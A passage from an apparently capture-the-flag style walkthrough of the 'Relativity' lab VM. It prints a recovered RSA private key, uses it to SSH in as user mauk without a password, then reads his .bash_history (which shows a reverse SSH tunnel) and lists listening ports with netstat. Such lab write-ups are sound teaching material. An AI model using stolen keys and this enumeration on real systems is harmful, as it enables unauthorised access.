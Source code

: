 ```
ALXqIBlItS08MhoTaS0SK+pD98OU34M745U5Mo4TgFjYc+eD7xewyduWuS5IuFPd
xfcHkt0cQ7he0AYHuk5ooCI4ca3B0xcSZILWqwIDAQABAoIBAHNnIMxXLQNdkGAd
tsfMoLQikodrHif7WuJpG0zuG5pQ5XWKtAi7qbCvzHDnaudmT4SfDld/gneLhord
jSXQPi62aCATeL0cSGVD7pKJ7E3vbgM5bQAi7F9RnqBl1QRqjN3R1uYVrFaAU85v
f4N8umHOw5ELpLyZJ5LvZfVNB1jNIRpxINhAP+/kVslsZ93qyssljokKFMy/uOIH
r+SV3b3Zfogvg67AJ/g08jtCjYdbr7egPP2TYPMRz5fbTWCrc5m4EBvf5h5pP/w6
Go12YacY2lbF5wzbFUjIdNyF7RZHFDbSB0bM9aCDmXTfywlFswYdb7HyIZrstQ9W
BzWhIYkCgYEA/tUe/rhUcEYEXkhddkXWARcX0t9YNb8apY7WyVibiSyzh33mscRG
MLZoJJri5QMvNdYkNGr5zSGEo270Q2CzduKCbhVjXIybIbmggAc/80gZ5E8FDgJ7
szUKJL37BxXbAAYFIZkzXvc76Ve+vZvLfKMTbQqXTgKkQpGyRHLVOz8CgYEA59ht
YicNlz2yM26mpGqQNLGtEC1RmyZbPn03yJRTBJG5/sOlMw0RI+cMEiqyo7MKHmMZ
+Z7VKVtk8xEQbUy6EAeeSri/Fh1xiKRtlwwQSU1q2ooPOmdHyUp+rhseoPaDAJgy
3KJYbkQMzHVt6KhsWVTEnrz0VtxiTzRu7p2Y5ZUCgYEAt5X2RG+rdU8b6oibvI9H
Q3XNlf+NXvsUSV2EY33QX5yyodQUFNFf98wRbv2epHoM0u45GwJOgHe7RLq0gq3x
3J4GdSQ3dv9c64j9lf6jFbNF4/MBozwqvcpiSmILrOkT4wpzO+dQ2QOoR80M/zB0
ApDBd/b/VhYVHFg2Y5WPBKUCgYBn47SIMgXGCtBqeZ/UtyetZRyuzg/uXQ6v/r5b
dBOLTZ2xyouhR66xjtv63AU2k4jqOvAtyf2szZZ70N6yi5ooirFkvEpsJ39zgnLV
J4O4xScnjIvsWNFzIp2HeQGNkUj8oDbSZTEJIBc4GzrH8Yizsud0VimLLrAi29UF
ubsEzQKBgQDpWaD5rTcaWueiH2DwI7kbdgyf6yfpunsRNsnq0GqZ2wSaUyKt9b1j
bj9Dp+VxrUt584v//7z9Skkde2akJbA/qiF8/oOvzaiNRAOfpLCiqoL0vJ5dIvcg
aXwuOk5Dt0/xQWPAKHL6HYyzQjnad/VAmn6tnxko1A/S8ELiG+MUtg==
-----END RSA PRIVATE KEY-----
```
Nice deal now we can get a real shell as mauk on the box without his password.
```bash
$ ssh -i mauk.key mauk@192.168.147.178
[mauk@Relativity ~]$ id && uname -a
uid=1001(mauk) gid=1001(mauk) groups=1001(mauk)
Linux Relativity 3.9.8-100.fc17.x86_64 #1 SMP Thu Jun 27 19:19:57 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
```
So we have 64 bit Fedora 17 here. Looking at mauk's .bash_history file we can see him doing something else with some ssh commands. The ssh -R is forwarding localport 6667 back to the same port on his machine I'm assuming, then the -f flag is to run it in the background and -N is to not execute any remote commands. 
```bash
[mauk@Relativity ~]$ cat .bash_history 

ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
su -
exit
su -
[mauk@Relativity ~]$ netstat -antp
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6667          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0     40 192.168.147.178:22      192.168.147.171:34850   ESTABLISHED -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                  
```